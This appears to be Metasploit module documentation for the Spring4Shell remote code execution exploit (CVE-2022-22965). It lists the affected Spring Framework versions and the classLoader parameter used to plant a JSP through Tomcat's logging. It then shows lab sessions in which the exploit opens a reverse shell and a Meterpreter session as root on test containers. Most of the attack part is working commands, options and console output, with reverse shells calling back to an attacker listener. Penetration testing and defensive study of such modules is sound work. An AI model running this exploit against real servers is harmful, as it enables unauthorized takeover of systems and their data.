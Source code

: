 ## Vulnerable Application

Spring Framework versions 5.3.0 to 5.3.17, 5.2.0 to 5.2.19, and older versions when running on JDK 9 or above 
and specifically packaged as a traditional WAR and deployed in a standalone Tomcat instance are vulnerable 
to remote code execution due to an unsafe data binding used to populate an object from request parameters 
to set a Tomcat specific ClassLoader. By crafting a request to the application and referencing the 
org.apache.catalina.valves.AccessLogValve class through the classLoader with parameters such as the following:
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp, an unauthenticated attacker can 
gain remote code execution.

## Verification Steps

1. Build the application
   1. `git clone https://github.com/vleminator/Spring4Shell-POC`
   2. `docker build . -t spring4shell`
2. Run the application
   1. `docker run -p 8085:8080 spring4shell`
3. Start msfconsole
4. Run: `use exploit/multi/http/spring_framework_rce_spring4shell`
5. Set the `RHOSTS`, `TARGET`, `PAYLOAD` and payload associated datastore options
6. Run the exploit

## Options
### HTTP_METHOD
HTTP method to use for checking and exploitation. If set to `Automatic` (the default value), the method will be
automatically identified. Automatically identifying the HTTP method uses the check method.

### PAYLOAD_PATH
Path to write the payload. This is relative to the tomcat installation directory.

## Scenarios

### Target Java (vulhub container)

The target is the [vulhub container](https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22965) which uses the
GET HTTP method.

```
msf6 > use exploit/multi/http/spring_framework_rce_spring4shell 
[*] No payload configured, defaulting to generic/shell_reverse_tcp
msf6 exploit(multi/http/spring_framework_rce_spring4shell) > show options 

Module options (exploit/multi/http/spring_framework_rce_spring4shell):

   Name          Current Setting                 Required  Description
   ----          ---------------                 --------  -----------
   HTTP_METHOD   Automatic                       no        HTTP method to use (Accepted: Automatic, GET, POST)
   PAYLOAD_PATH  webapps/ROOT                    yes       Path to write the payload
   Proxies                                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT         8080                            yes       The target port (TCP)
   SSL           false                           no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /app/example/HelloWorld.action  yes       The path to the application action
   VHOST                                         no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.250.134  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java


msf6 exploit(multi/http/spring_framework_rce_spring4shell) > set PAYLOAD java/jsp_shell_reverse_tcp 
PAYLOAD => java/jsp_shell_reverse_tcp
msf6 exploit(multi/http/spring_framework_rce_spring4shell) > exploit http://192.168.159.128:8080/

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Automatically identified HTTP method: GET
[*] 192.168.159.128:8080 - Generating JSP...
[*] 192.168.159.128:8080 - Modifying Class Loader...
[*] 192.168.159.128:8080 - Waiting for the server to flush the logfile
[*] 192.168.159.128:8080 - Executing JSP payload at http://192.168.159.128:8080/MUpts6425.jsp
[+] 192.168.159.128:8080 - Log file flushed
[*] Command shell session 1 opened (192.168.250.134:4444 -> 172.19.0.2:47418 ) at 2022-05-05 10:47:50 -0400

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/usr/local/tomcat
```

### Target Linux (x64)

The target is the [vleminator container](https://github.com/vleminator/Spring4Shell-POC) which uses the
POST HTTP method.

```
msf6 > use exploit/multi/http/spring_framework_rce_spring4shell
[*] Using configured payload java/jsp_shell_reverse_tcp
msf6 exploit(multi/http/spring_framework_rce_spring4shell) > set TARGET Linux 
TARGET => Linux
msf6 exploit(multi/http/spring_framework_rce_spring4shell) > set PAYLOAD linux/x64/meterpreter/reverse_tcp 
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/spring_framework_rce_spring4shell) > show options 

Module options (exploit/multi/http/spring_framework_rce_spring4shell):

   Name          Current Setting                 Required  Description
   ----          ---------------                 --------  -----------
   HTTP_METHOD   Automatic                       no        HTTP method to use (Accepted: Automatic, GET, POST)
   PAYLOAD_PATH  webapps/ROOT                    yes       Path to write the payload
   Proxies                                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT         8080                            yes       The target port (TCP)
   SSL           false                           no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /app/example/HelloWorld.action  yes       The path to the application action
   VHOST                                         no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.250.134  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux


msf6 exploit(multi/http/spring_framework_rce_spring4shell) > exploit http://192.168.159.128:8085/helloworld/greeting

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[+] Automatically identified HTTP method: POST
[*] 192.168.159.128:8085 - Generating JSP...
[*] 192.168.159.128:8085 - Modifying Class Loader...
[*] 192.168.159.128:8085 - Waiting for the server to flush the logfile
[*] 192.168.159.128:8085 - Executing JSP payload at http://192.168.159.128:8085/S0J17.jsp
[+] 192.168.159.128:8085 - Log file flushed
[*] Sending stage (3020772 bytes) to 172.17.0.2
[+] Deleted /tmp/6DKA
[*] Meterpreter session 2 opened (192.168.250.134:4444 -> 172.17.0.2:54902 ) at 2022-05-05 10:52:35 -0400

meterpreter > getuid
Server username: root
meterpreter > pwd
/helloworld
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 11.2 (Linux 5.17.4-100.fc34.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

